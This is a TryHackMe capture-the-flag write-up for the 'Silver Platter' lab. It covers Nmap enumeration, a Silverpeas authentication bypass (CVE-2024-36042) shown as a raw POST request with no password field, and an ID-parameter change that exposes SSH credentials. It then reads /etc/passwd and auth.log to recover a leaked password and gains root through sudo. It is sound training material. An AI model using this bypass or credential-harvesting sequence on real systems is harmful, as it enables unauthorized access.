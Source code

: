 ```yaml
---
clayout: ctf
title: Silver Platter
type: TryHackMe
date: 2025-02-27
level: Easy
icon: /ctf/tryhackme/silver-platter/icon-room.png
image: /ctf/tryhackme/silver-platter/icon-room.png
description: Can you breach the server?
ctf-link: https://tryhackme.com/room/silverplatter
---
```




## Challenge description

Think you've got what it takes to outsmart the Hack Smarter Security team? They claim to be unbeatable, and now it's
your chance to prove them wrong. Dive into their web server, find the hidden flags, and show the world your elite
hacking skills. Good luck, and may the best hacker win!
But beware, this won't be a walk in the digital park. Hack Smarter Security has fortified the server against common
attacks and their password policy requires passwords that have not been breached (they check it against the rockyou.txt
wordlist - that's how 'cool' they are). The hacking gauntlet has been thrown, and it's time to elevate your game.
Remember, only the most ingenious will rise to the top.

May your code be swift, your exploits flawless, and victory yours!

## Challenge overview

Silver Platter is a **web exploitation** and **privilege escalation** challenge. The goal is to enumerate the services
running on the target, exploit a **vulnerable authentication mechanism in Silverpeas**, and escalate privileges using **leaked credentials**
to obtain **root access**.

## Enumeration

### Nmap

To begin, we perform a comprehensive scan of the target machine to identify open ports and services:

```bash
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 1b1c878afe3416c9f782372b108f8bf1 (ECDSA)
|_  256 266d17ed839e4f2df6cd5317c8803d09 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD
|_http-title: Hack Smarter Security
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http-proxy
| fingerprint-strings:
|   FourOhFourRequest, GetRequest, HTTPOptions:
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Thu, 27 Feb 2025 11:56:56 GMT
|     <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SMBProgNeg, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Length: 0
|_    Connection: close
|_http-title: Error
```

The scan reveals several open ports:

- **22/tcp**: SSH (OpenSSH 8.9p1 Ubuntu 3ubuntu0.4)
- **80/tcp**: HTTP (nginx 1.18.0)
- **8080/tcp**: HTTP Proxy

## Web enumeration

### Exploring Port 80

Navigating to `http://10.10.154.105` presents us with the home page of the Hack Smarter Security website:

![Hack Smarter Security](/ctf/tryhackme/silver-platter/home.png)

The website contains multiple pages:

- **Home**: Main page of the website.
- **Work**: Describes actions taken if payment is not made.
- **About Us**: Brief description of the company.
- **Contact**: Displays contact information.

On the **Contact** page, we find valuable information:

![Hack Smarter Security](/ctf/tryhackme/silver-platter/contact.png)

- Username: `scr1ptkiddy`
- Mention of [**Silverpeas**](https://www.silverpeas.com/) software

This information helps guide further enumeration.

### Investigating Port 8080

Navigating to `http://10.10.154.105:8080` results in a **404 error page**.

![404 Error](/ctf/tryhackme/silver-platter/404.png)

#### Silverpeas Login

Using the information gathered from the contact page, we can perform further enumeration. Looking at the documentation
of [silverpeas installation](https://www.silverpeas.org/installation/installation.html), we can see that the default
path for login is `/silverpeas`. Using this information, we can navigate to `http://10.10.154.105:8080/silvepeas` and
see a login page:

![Hack Smarter Security](/ctf/tryhackme/silver-platter/silverpeas-login.png)

## Exploiting Silverpeas Authentication Bypass

Using default credentials (`SilverAdmin:SilverAdmin`) **does not work**. Brute-force attempts also fail.

Searching for vulnerabilities, we
discover [CVE-2024-36042](https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d), an **authentication
bypass** exploit. This allows login by simply **removing the password field** from the POST request:

```bash
POST /silverpeas/AuthenticationServlet HTTP/1.1
Host: 10.10.182.212:8080
Content-Length: 28

Login=scr1ptkiddy&DomainId=0
```

This successfully logs in as `scr1ptkiddy`, granting access to the Silverpeas admin panel.

![Hack Smarter Security](/ctf/tryhackme/silver-platter/silverpeas-panel.png)

## Extracting SSH Credentials

Under **My Notifications**, we find an unread message from the **manager**.

![Hack Smarter Security](/ctf/tryhackme/silver-platter/unread-notification.png)

Changing the `ID` parameter in the URL (`id=6`), reveals an earlier **notification containing SSH credentials**.

![SSH credentials notification](/ctf/tryhackme/silver-platter/ssh-credentials.png)

Credentials:

```bash
tim:cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```

Using these credentials, we SSH into the target machine and obtain the user flag.

```bash
ssh tim@10.10.182.212
tim@silver-platter:~$ ls -al
total 12
dr-xr-xr-x 2 root root 4096 Dec 13  2023 .
drwxr-xr-x 4 root root 4096 Dec 13  2023 ..
-rw-r--r-- 1 root root   38 Dec 13  2023 user.txt
tim@silver-platter:~$ cat user.txt
THM{user_flag}
```

## Privilege Escalation

### Enumerating Users

Checking `/etc/passwd` reveals another user, **tyler**:

```bash
tim@silver-platter:~$ cat /etc/passwd
[...]
tyler:x:1000:1000:root:/home/tyler:/bin/bash
tim:x:1001:1001::/home/tim:/bin/bash
```

### Finding Credentials for Tyler

Inspecting `/var/log/auth.log`, we see **Tyler running Docker commands**:

```bash
Dec 13 15:40:33 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name postgresql -d -e POSTGRES_PASSWORD=_Zd_zx7N823/ -v postgresql-data:/var/lib/postgresql/data postgres:12.3
```

Tyler's **PostgreSQL password**: `_Zd_zx7N823/`

Using this, we switch to **Tyler**:

```bash
tim@silver-platter:~$ su tyler
tyler@silver-platter:/home/tim$ whoami
tyler
```

## Root Privilege Escalation

### Checking Sudo Permissions

Checking the sudo permissions for the `tyler` user:

```bash
tyler@silver-platter:/home/tim$ sudo -l
[sudo] password for tyler:
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL
```

The `tyler` user can run any command as root. We can read the root flag:

```bash
tyler@silver-platter:/home/tim$ sudo cat /root/root.txt
THM{root_flag}
```

